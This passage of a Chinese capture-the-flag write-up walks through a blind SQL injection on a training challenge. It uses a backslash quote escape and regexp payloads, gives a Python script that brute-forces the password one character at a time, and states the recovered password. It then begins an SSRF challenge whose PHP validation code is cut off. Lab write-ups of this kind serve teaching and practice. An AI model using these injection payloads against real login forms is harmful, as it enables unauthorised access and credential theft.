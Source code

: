 这里发现响应包将我们重定向到了`welcome.php`这就说明匹配成功了

那么接下来就可以用同样的方法去盲注获得密码:

```
select * from users where username='\' and passwd='||passwd/**/regexp/**/"^a";'
其中输入的passwd的值为:||passwd/**/regexp/**/"^a";
```

脚本:

```python
import requests
import string
from urllib import parse
import time
#chars = string.printable[:]  # 这里不这样是因为其中包含的*,.等符号会导致正则匹配出现歧义
chars = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_'
# print(chars)
base_url = "http://07f7d3e5-e832-4b8e-82d3-b0b1f1589b9c.node4.buuoj.cn:81/index.php"
session = requests.session()

def get_data():
    password = ""
    for i in range(1,30):
        for c in chars:
            data = {
                'username': '\\',
                'passwd': '||passwd/**/regexp/**/"^{}";{}'.format(password+c, parse.unquote('%00'))
            } # 这里使用urllib.parse.unquote来对%00进行解码
            time.sleep(0.5)
            print(data['passwd'])
            res = session.post(base_url, data=data).text
            # print(res)
            if 'welcome' in res:
                password = password + c
                print(password)
                break
get_data()

密码:you_will_never_know7788990
```

<br>

***

<br>

# [利用组件url解析不一致进行SSRF]SSRF Training

```php
<?php 
highlight_file(__FILE__);
function check_inner_ip($url) 
{ 
    $match_result=preg_match('/^(http|https)?:\/\/.*(\/)?.*$/',$url); 
    if (!$match_result) 
    { 
        die('url fomat error'); 
    } 
    try 
    { 
        $url_parse=parse_url($url);  # 这里对url进行解析,解析成数组
    } 
    catch(Exception $e) 
    { 
```